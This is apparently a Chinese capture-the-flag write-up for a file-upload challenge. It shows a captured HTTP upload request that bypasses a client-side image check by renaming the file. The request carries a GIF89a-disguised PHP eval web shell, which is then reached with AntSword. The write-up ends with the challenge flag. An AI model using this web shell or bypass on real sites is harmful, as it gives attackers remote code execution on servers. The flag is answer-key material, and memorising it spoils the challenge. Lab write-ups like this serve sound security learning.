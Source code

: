 ## upload1

文件上传的题

直接上传php马 存在报错 ”请上传图片“

----

### Brupsuit 绕过
shell.php 修改后缀名 为 shell.jpg 点上传 Brupsuit 抓包
```http request
POST /index.php HTTP/1.1
Host: 61.147.171.105:50756
Content-Length: 216
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:50756
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY5H4NyVTt0LrOelc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:50756/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryY5H4NyVTt0LrOelc
Content-Disposition: form-data; name="upfile"; filename="shell.jpg"
Content-Type: image/jpeg

GIF89a
<?=eval($_POST['x']);?>
------WebKitFormBoundaryY5H4NyVTt0LrOelc--
```
修改 filename = "shell.php" 后 forward

上传成功

---
### antsword 连接
![img.png](jpg_php.png)
可以看到 成功上传的php文件
![img.png](img.png)

---
### flag
$flag="cyberpeace{323a5ab98f676bc4d403f717d7a0662c}";